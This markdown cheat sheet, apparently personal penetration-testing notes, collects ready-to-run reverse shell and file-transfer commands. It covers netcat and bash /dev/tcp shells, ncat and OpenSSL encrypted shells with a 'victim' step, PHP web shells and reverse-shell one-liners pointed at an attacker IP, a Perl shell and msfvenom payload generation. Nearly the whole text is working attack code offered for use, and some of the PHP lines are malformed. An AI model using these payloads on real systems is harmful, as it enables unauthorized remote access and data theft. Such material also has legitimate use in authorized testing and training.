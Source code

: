# Always check FW from both side

## Shellerator roxx for a quick reverse shell 

---

## Send a file

```nc -nlvp 5555 > incoming.txt```
```nc -nv <ip> 5555 < filetosend.txt```

---

## Reverse shell nc traditional :

```nc -nlvp 5555```
```nc -nv <ip> 5555 -e /bin/bash```

- I had issues sometimes from windows to a linux, try ```nc -lvp``` instead of ```nc -nlvp```

---

## Bash reverse shell :

```bash -i > /dev/tcp/IP/PORT 2>&1 0>&1```

---

## Encrypted shell :

```
ncat --exec /bin/bash --allow <ip> -vnl 5555 --ssl
ncat -v <ip> 5555 --ssl
```

---

## With OpenSSL :

- Generate keys on the attacker box : ```openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes```

- Then start the listener : ```openssl s_server -quiet -key key.pem -cert cert.pem -port 5555```

- Victime : ```mkfifo /tmp/t; /bin/sh -i < /tmp/t 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:5555 > /tmp/t; rm /tmp/t```


---

## IIS

- Use .asp file or .aspx


--- 

## PHP 

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.156 LPORT=5555 -o drive.php

<?php $sock=fsockopen("10.11.0.156",5555);exec("/bin/sh -i <&3 >&3 2>&3");?>

<?php echo shell_exec($_GET['cmd']);?>

<?php system('cmd');?>

<?php echo shell_exec('bash -i > /dev/tcp/10.11.0.156/5555 2>&1 0>&1');?>


<?php ("bash -i > /dev/tcp/10.11.0.156/5555 0>&1 2>&1"):?>

<?php echo shell_exec("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'");?>

<?php exec("telnet 10.11.0.156 5555 | /bin/sh | telnet 10.11.0.156 5555");?>

<?php exec("exec /bin/sh 0</dev/tcp/10.11.0.156/5555 1>&0 2>&0");?>

<?php exec("php -r $s=fsockopen(10.11.0.156,5555);exec(/bin/sh -i <&3 >&3 2>&3);");?>
```	


--- 

## perl shell :

```
use Socket;$i="192.168.0.213";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

---

## Javascript :

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f js_le -e generic/none
```
If you are attacking a Linux host:
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 CMD=/bin/bash -f js_le -e generic/none
```



